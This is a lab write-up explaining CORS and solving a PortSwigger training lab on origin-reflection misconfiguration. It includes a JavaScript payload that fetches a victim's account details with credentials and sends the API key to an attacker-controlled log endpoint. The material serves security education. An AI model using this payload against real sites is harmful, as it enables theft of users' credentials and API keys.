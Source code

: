 # CORS

## **What is CORS (cross-origin resource sharing)?**

Cross-origin resource sharing (CORS) is a browser mechanism which 
enables controlled access to resources located outside of a given 
domain. It extends and adds flexibility to the same-origin policy ([SOP](https://portswigger.net/web-security/cors/same-origin-policy)
).
 However, it also provides potential for cross-domain attacks, if a 
website's CORS policy is poorly configured and implemented. CORS is not a
 protection against cross-origin attacks such as [cross-site request forgery](https://portswigger.net/web-security/csrf)
 (CSRF).

## **[Lab: CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)**

### Description

> 
> 
> 
> This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts all origins.
> 
> To solve the lab, craft some JavaScript that uses CORS to 
> retrieve the administrator's API key and upload the code to your exploit
>  server. The lab is solved when you successfully submit the 
> administrator's API key.
> 
> You can log in to your own account using the following credentials: `wiener:peter`
> 

### Solution:

***Same-Origin Policy – SOP:** In short, SOP is a form of restrictive cross-origin specification (I roughly translate as cross-origin control feature) to limit the ability of websites to interact with resources outside the source domain. The goal of SOP is to prevent malicious interactions between domains (for example, a website that tries to steal sensitive data from another website).*

After turning on Burp Suite to capture traffic and turning off Proxy Interception, I logged into the application with the familiar credentials `wiener:peter`.

Here I notice the presence of an API Key in the My Account.

![Untitled](CORS%200cd642a5a74f4c0aa3cc08ca99b57bc8/Untitled.png)

Checking the Proxy History I noticed that the API Key is retrieved through the `Asynchronous Javascript and XML – AJAX` (roughly an asynchronous processing method that does not need to be sequenced) the request to `/accountDetails.` The response also contains an `Access-Control-Allow-Credentials` header indicating that the application can support CORS.

![Untitled](CORS%200cd642a5a74f4c0aa3cc08ca99b57bc8/Untitled%201.png)

I try sticking the header `Origin: https://test.com` into the request and send.

At this point in the response, I noticed that the Origin header I clicked on appeared in the `Access-Control-Allow-Origin header`.

![Untitled](CORS%200cd642a5a74f4c0aa3cc08ca99b57bc8/Untitled%202.png)

I can write a script like the following and put it in the body of the exploit server to read the **API key**.

```jsx
<script>

    var req = new XMLHttpRequest();

    req.onload = reqListener;

    req.open('get','$url/accountDetails',true);

    req.withCredentials = true;

    req.send();

 

    function reqListener() {

        location='/log?key='+this.responseText;

    };

</script>
```

![Untitled](CORS%200cd642a5a74f4c0aa3cc08ca99b57bc8/Untitled%203.png)

After Store and View exploit I will see the API key appear in the URL in the log page., I can click Deliver exploit to victim and access the Access log to get the victim's API key.